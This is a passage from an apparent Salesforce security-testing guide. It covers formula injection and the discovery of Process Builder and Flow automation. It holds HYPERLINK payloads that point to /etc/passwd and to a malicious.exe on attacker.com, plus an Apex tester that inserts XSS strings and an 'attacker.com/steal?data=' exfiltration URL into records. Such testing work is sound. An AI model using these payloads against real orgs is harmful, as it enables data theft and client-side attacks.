 ```javascript
// File system access (if enabled)
HYPERLINK("file:///etc/passwd", "System Files")
HYPERLINK("\\\\attacker.com\\share\\malicious.exe", "Network Resource")
```

**Automated Formula Injection Testing**:
```apex
public class FormulaInjectionTester {
    public static void testFormulaInjection(String objectName, String fieldName) {
        Schema.SObjectType objectType = Schema.getGlobalDescribe().get(objectName);
        SObject testRecord = objectType.newSObject();
        
        List<String> payloads = new List<String>{
            '<script>alert("XSS")</script>',
            'javascript:alert("XSS")',
            '"><script>alert("XSS")</script>',
            '\';alert("XSS");var a=\'',
            'http://attacker.com/steal?data='
        };
        
        for (String payload : payloads) {
            try {
                testRecord.put(fieldName, payload);
                insert testRecord;
                
                String query = 'SELECT Id, ' + fieldName + ' FROM ' + objectName + 
                              ' WHERE Id = \'' + testRecord.Id + '\'';
                List<SObject> results = Database.query(query);
                
                if (!results.isEmpty()) {
                    String resultValue = String.valueOf(results[0].get(fieldName));
                    if (resultValue.contains('javascript:') || resultValue.contains('<script>')) {
                        System.debug('Potential formula injection: ' + payload);
                    }
                }
                
                delete testRecord;
            } catch (Exception e) {
                System.debug('Payload blocked: ' + payload + ' - ' + e.getMessage());
            }
        }
    }
}
```

**Impact**: Information disclosure, client-side code execution, data exfiltration.

### 2. Process Automation Exploitation

**Objective**: Identify security vulnerabilities in Process Builder, Flow, and Workflow automation.

**Process & Flow Discovery**:
```sql
-- Active processes and flows
SELECT Id, DeveloperName, ProcessType, Status, Description,
       LastModifiedDate, LastModifiedBy.Name, TriggerType
FROM Flow 
WHERE Status = 'Active' 
  AND ProcessType IN ('Flow', 'Workflow', 'AutoLaunchedFlow')

-- Process builder definitions
SELECT Id, Name, Type, State, Description, TableEnumOrId,
       CreatedDate, LastModifiedDate, LastModifiedBy.Name
FROM ProcessDefinition 
WHERE State = 'Active'
```
